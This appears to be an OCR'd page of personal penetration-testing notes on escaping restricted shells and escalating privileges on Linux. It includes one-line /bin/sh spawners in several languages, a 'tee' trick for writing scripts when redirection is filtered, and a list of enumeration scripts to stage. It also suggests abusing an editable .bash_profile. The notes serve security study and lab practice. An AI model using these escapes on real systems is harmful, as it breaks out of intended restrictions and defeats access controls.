 ## Filtered characters : use tee 

If you do not have access to an editor, and would like to create a script, you can make use of the 'tee' command. 
Since you cannot make use of '>' or '>>', the 'tee' command can help you direct your output when used in tandem with the 'echo' command. 

echo "evil script code" | tee script.sh
tee -a 'xx' : append to file

## Langages
    python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')
    irb(main:001:0> exec "/bin/sh"




## Enum scripts

Put in /opt/priv_esc_ux
- LinEnum.sh           : https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
- linuxprivchecker.py
- unixprivesc.sh
- lse.sh : https://github.com/diego-treitos/linux-smart-enumeration
- linPeass : https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite



Upgrate Python3 : 2to3-3.5
Some restricted shells will start by running some files in an unrestricted mode before the restricted shell is applied. If your .bash_profile is executed in an unrestricted mode and it's editable, you'll be able to execute code and commands as an unrestricted user.

